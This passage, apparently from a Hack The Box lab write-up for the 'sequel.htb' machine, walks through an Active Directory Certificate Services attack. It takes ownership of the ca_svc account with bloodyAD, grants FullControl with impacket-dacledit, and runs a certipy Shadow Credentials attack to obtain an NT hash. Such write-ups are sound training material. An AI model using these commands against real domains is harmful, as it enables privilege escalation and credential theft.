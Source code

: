 Enough with theory, BUT a research is crucial to better understand this ADCS. Here are the resources I read, and I recommend you do too:&#x20;

[Shadow creds](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials).

&#x20;[Granting rights](https://www.thehacker.recipes/ad/movement/dacl/grant-rights).&#x20;

[Certificate Template Access Control exploitation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4).

***

### Exploitation

Personally I fell into many rabbit holes due to the bloodhound suggestions in the Abuse section. I was amazed by the tool since it's my first time running it. But after hours, I found my way.

#### Step 1: Change ownership of `ca_svc` Object

Well we have WriteOwner, we could take ownership of this object and get Full Control over the CA configuration, compromise the Certificate Authority and abuse the templates that are associated with privileged users .

```bash
bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'password' set owner 'ca_svc' 'ryan'
```

Which upon success prints out:

<figure><img src="../.gitbook/assets/step 1 blooAD success.png" alt=""><figcaption></figcaption></figure>

#### Step 2: Grant Full Control rights

```bash
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"password"

<SNIP>
[*] DACL backed up to dacledit-20250227-135446.bak
[*] DACL modified successfully!

```

#### Step 3:

We will be performing Shadow Credentials attack to get an <mark style="color:red;">**NT hash**</mark> of the **`ca_svc`** account.

```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p "password" -account 'ca_svc' -dc-ip '10.10.11.51'
```
